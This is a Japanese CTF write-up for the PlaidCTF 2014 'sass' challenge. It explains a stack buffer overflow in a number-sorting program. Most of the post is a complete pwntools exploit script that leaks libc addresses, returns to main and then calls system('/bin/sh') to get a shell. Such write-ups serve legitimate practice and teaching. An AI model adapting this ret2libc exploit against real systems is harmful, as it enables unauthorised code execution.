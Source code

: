 ```yaml
---
layout: post
redirect_from:
  - /blog/2016/09/15/plaidctf-2014-sass/
date: "2016-09-15T15:43:57+09:00"
tags: [ "competitive", "writeup", "pwn", "plaidctf" ]
"target_url": [ "https://github.com/ctfs/write-ups-2014/tree/master/plaid-ctf-2014/sass" ]
---
```


# Plaid CTF 2014: sass

手元で解いた。
練習用に鯖を建てていたのだが、こちらに投げたら通らず。
stack上の値を眺めながらいい感じにするだけの問題であるので、実質解き直しかつそこまでするほどの楽しさはなく、鯖は放棄した。

## solution

入力された数値($10$や$16$進の諸々の形式をいい感じに読んでくれる)をstackのbufferに積み(正確には$0$で初期化してあるところに足し引き)、(符号付きで)sortし、出力するプログラム。
bofがあって、入力した数値でreturn addressを触れる。
libcのbase addressを得つつreturn-to-mainしてから再度bofでsystemを呼ぶ。
PIEではあるが、`get_pc_thunk.bx`の跡が残っているのでこれに差分を与えてmainのaddressを作ればよい。

``` c++
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
context.log_level = 'debug'

elf = ELF('./sass')
libc = ELF('/lib/i386-linux-gnu/libc.so.6')
p = process('./sass')

p.recvuntil('Enter your numbers:\n')
for i in range(32):
    p.sendline(str(0x80000000))
p.sendline(str(0))
p.sendline(str(- 0x250))
p.sendline(str(- 11)) # main
p.sendline(str(0x7fffffff + 2))
p.sendline(str(0))
p.sendline(str(0))
p.sendline(str(0x7fffffff + 2))
p.sendline(str(0)) # __libc_start_main
p.sendline(str(0x7fffffff + 3)) # argc
p.sendline(str(0)) # argv
p.sendline(str(0)) # envp
p.sendline()
p.recvuntil('OK, here you are:\n')
for i in range(32):
    assert int(p.recvline(), 16) == 0x80000000
libc_base = int(p.recvline(), 16) - (libc.symbols['__libc_start_main'] + 247)
log.info('libc base: %#x', libc_base)
libc_static = int(p.recvline(), 16)
assert int(p.recvline(), 16) == libc_static
assert int(p.recvline(), 16) == libc_static + 0x3dc
log.info('libc static: %#x', libc_static)
argv = int(p.recvline(), 16)
log.info('argv: %#x', argv)
envp = int(p.recvline(), 16)
log.info('envp: %#x', envp)
program_base = int(p.recvline(), 16)
log.info('program base: %#x', program_base)
assert int(p.recvline(), 16) == program_base + elf.symbols['main']
for i in range(3):
    assert int(p.recvline(), 16) == 0x7fffffff

p.recvuntil('Enter your numbers:\n')
for i in range(32):
    p.sendline(str(0x80000000))
p.sendline(str(- 0x80000000 - libc_static - 0x3dc))
p.sendline(str(- 0x80000000 - argv))
p.sendline(str(- 0x80000000 - envp))
p.sendline(str(- 0x80000000 - program_base))
p.sendline(str((0x7fffffff - libc_base - libc.symbols['system']      ) % 0x100000000))
p.sendline(str((0x7fffffff - libc_base - libc.symbols['system'] - 1  ) % 0x100000000))
p.sendline(str((0x7fffffff - libc_base - next(libc.search('/bin/sh'))) % 0x100000000))
p.sendline()
p.recvuntil('OK, here you are:\n')

time.sleep(1)
p.sendline('id')
p.interactive()
```
